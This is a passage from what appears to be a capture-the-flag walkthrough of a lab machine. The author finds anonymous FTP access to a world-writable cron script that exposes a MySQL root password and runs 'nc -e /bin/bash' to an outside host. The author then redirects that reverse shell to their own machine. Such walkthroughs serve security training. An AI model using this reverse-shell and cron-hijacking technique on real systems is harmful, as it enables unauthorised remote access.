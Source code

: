 ```bash
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
<SNIP>

Nmap done: 1 IP address (1 host up) scanned in 14.35 seconds
```

The FTP server has indeed been opened and we can see that an anonymous login is enabled on this server. Let's log into the server and enumerate the information that has been made public.
```bash
┌──(pentester㉿kali)-[~/Democracy/Scans/Service]
└─$ftp 10.0.2.19 
Connected to 10.0.2.19.
220 ProFTPD Server (Debian) [::ffff:10.0.2.19]
Name (10.0.2.19:pentester): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||44407|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      nogroup      4096 Apr 30  2023 .
drwxr-xr-x   2 ftp      nogroup      4096 Apr 30  2023 ..
-rwxrwxrwx   1 root     root          258 Apr 30  2023 votes
226 Transfer complete
ftp> more votes
#! /bin/bash
## this script runs every minute ##
#!/bin/bash
mysql -u root -pYklX69Vfa voting << EOF
SELECT COUNT(*) FROM votes WHERE candidate='republican';
SELECT COUNT(*) FROM votes WHERE candidate='democrat';
EOF
nc -e /bin/bash 192.168.0.29 4444
ftp> 
```

The FTP server hosts a script executed after every minute. The most interesting thing is that this script is writable by any user and appears to make a reverse connection to a local IP address. Let's download the script, modify the IP address for the reverse connection, and upload it back to the FTP server.
```bash
ftp> ascii
200 Type set to A
ftp> get votes
local: votes remote: votes
229 Entering Extended Passive Mode (|||63887|)
150 Opening ASCII mode data connection for votes (258 bytes)
   273        4.26 MiB/s 
226 Transfer complete
273 bytes received in 00:00 (261.11 KiB/s)
ftp> exit

┌──(pentester㉿kali)-[~/Democracy/Misc Files]
└─$sed -i 's/192.168.0.29/10.0.2.16/' votes

┌──(pentester㉿kali)-[~/Democracy/Scans/Service]
└─$ftp 10.0.2.19 
Connected to 10.0.2.19.
<SNIP>
ftp> ascii
200 Type set to A
ftp> put votes
```